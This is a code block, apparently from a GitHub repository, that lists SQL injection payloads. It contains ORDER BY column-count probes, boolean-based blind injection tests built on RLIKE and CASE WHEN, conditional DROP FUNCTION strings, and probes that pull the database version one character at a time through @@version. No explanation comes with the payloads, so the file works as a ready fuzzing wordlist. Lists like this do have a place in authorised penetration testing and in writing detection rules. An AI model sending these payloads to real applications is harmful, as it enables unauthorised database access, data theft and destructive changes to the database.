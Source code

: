 ```
 ORDER BY 10# 
 ORDER BY 11# 
 ORDER BY 12# 
 ORDER BY 13# 
 ORDER BY 14# 
 ORDER BY 15# 
 ORDER BY 16# 
 ORDER BY 17# 
 ORDER BY 18# 
 ORDER BY 19# 
 ORDER BY 20# 
 ORDER BY 21# 
 ORDER BY 22# 
 ORDER BY 23# 
 ORDER BY 24# 
 ORDER BY 25# 
 ORDER BY 26# 
 ORDER BY 27# 
 ORDER BY 28# 
 ORDER BY 29# 
 ORDER BY 30#
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 6 
 ORDER BY 7 
 ORDER BY 8 
 ORDER BY 9 
 ORDER BY 10 
 ORDER BY 11 
 ORDER BY 12 
 ORDER BY 13 
 ORDER BY 14 
 ORDER BY 15 
 ORDER BY 16 
 ORDER BY 17 
 ORDER BY 18 
 ORDER BY 19 
 ORDER BY 20 
 ORDER BY 21 
 ORDER BY 22 
 ORDER BY 23 
 ORDER BY 24 
 ORDER BY 25 
 ORDER BY 26 
 ORDER BY 27 
 ORDER BY 28 
 ORDER BY 29 
 ORDER BY 30 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
```